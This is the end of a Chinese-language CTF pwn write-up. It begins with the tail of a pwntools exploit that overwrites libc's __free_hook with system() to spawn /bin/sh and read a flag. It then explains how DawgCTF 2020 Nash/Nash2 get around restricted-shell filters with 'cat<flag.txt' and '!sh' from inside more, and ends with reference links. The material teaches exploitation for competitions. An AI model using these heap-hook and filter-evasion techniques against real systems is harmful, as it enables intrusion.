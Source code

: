```
        play_song(sh,5,0x8,p64(libc.symbols['__free_hook']))
        play_song(sh,6,0x8,'/bin/sh')
        play_song(sh,7,0x8,p64(libc.symbols['system']))
        remove_song(sh,6)
        flag=get_flag(sh)
        sh.close()
        return flag
    except Exception as e:
        traceback.print_exc()
        sh.close()
        return 'ERROR : Runtime error!'

if __name__ == "__main__":
    sh = get_sh()
    flag = Attack(sh=sh)
    log.success('The flag is ' + re.search(r'flag{.+}',flag).group())
```



## 0x05 [2020 DawgCTF 2020] Nash/Nash2

> 题目类型：Pwn

题目的逻辑十分简单，在`Nash`中，程序限制了我们在`shell`中使用空格，这里我们可以使用`&lt;`将我们的`flag`文件重定向到命令中，即`cat&lt;flag.txt`。在`Nash2`中，程序限制了我们在`shell`中使用空格以及`&lt;`，那么我们可以使用`ps|more`就可以进入`more`的交互环境中，在那之后我们就可以使用`!'sh' flag.txt`读取`flag`文件。



## 0x06 参考链接

[【原】PlaidCTF 2020 Writeups – Hatena](https://ptr-yudai.hatenablog.com/entry/2020/04/20/105300)

[【原】dawgctf-2020-writeups](https://github.com/toomanybananas/dawgctf-2020-writeups/)

